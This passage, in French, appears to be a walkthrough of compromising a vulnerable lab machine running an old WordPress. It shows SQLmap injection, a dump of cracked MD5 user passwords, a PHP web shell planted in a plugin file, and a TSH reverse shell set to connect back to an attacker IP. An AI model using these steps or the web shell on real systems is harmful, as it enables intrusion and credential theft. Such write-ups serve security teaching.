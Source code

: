 Bien, *SQLmap* voit bien comment injecter du SQL dans le paramètre. On va pouvoir lui passer des options supplémentaires pour obtenir certaines infos comme :  

* `--current-user` qui retourne `root@localhost`
* `--current-db` qui retourne `wordpress`
* `--passwords` qui nous retourne le hash `2eaec110380126d7` pour le user root

Malheureusement, l'option `--os-shell` ne fonctionne pas, les droits sur `/var/www/html/` doivent être trop restreints.  

Avec les options de dump (comme `--dump-all` qui prend beaucoup de temps) on peut récupérer les tables MySQL.  

En l'occurrence les pages vulnérables sont celles d'un vieux *WordPress 1.5.1.1*.  

Dans la table des utilisateurs, on trouve les passwords hashés en MD5, facilement cassables avec [MD5RDB](http://md5.noisette.ch/):  

```
NickJames 21232f297a57a5a743894a0e4a801fc3 admin  

JohnSmith b986448f0bb9e5e124ca91d3d650f52c PUPPIES  

GeorgeMiller 7cbb3252ba6b7e9c422fac5334d22054 q1w2e3  

TonyBlack a6e514f9486b83cb53d8d932f9a04292 napoleon  

JasonKonnors 8601f6e1028a8e8a966f6c33fcd9aec4 maxwell  

MaxBucky 50484c19f1afdaf3841a0d821ed393d2 kernel  
```

On teste les différents logins sur l'interface d'administration *Wordpress* et on obtient un accès satisfaisant avec l'utilisateur `GeorgeMiller`.  

En particulier il est possible d'éditer le contenu des modules PHP. On édite le fichier `wp-content/plugins/hello.php` et on peut l'appeler directement pour faire exécuter notre PHP.  

Un `phpinfo()` révèle une configuration banale avec peu de protections (`safe_mode off`, pas de fonctions désactivées).  

On ajoute une backdoor PHP toute simple :  

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Puis on compile un [TSH](http://packetstormsecurity.com/files/31650/tsh-0.6.tgz.html) en mode connect-back (à cause de la présence du firewall) que l'on peut rapatrier via wget.  

Pour compiler *TSH* en mode connect-back il faut éditer `tsh.h` et dé-commenter deux lignes, par exemple de cette façon :  

```c
#define CONNECT_BACK_HOST  "192.168.1.3"
#define CONNECT_BACK_DELAY 10
```

Après il faut lancer le client en mode connect-back sur notre machine (`./tsh cb`) puis le serveur via notre backdoor PHP (`./tshd`).  
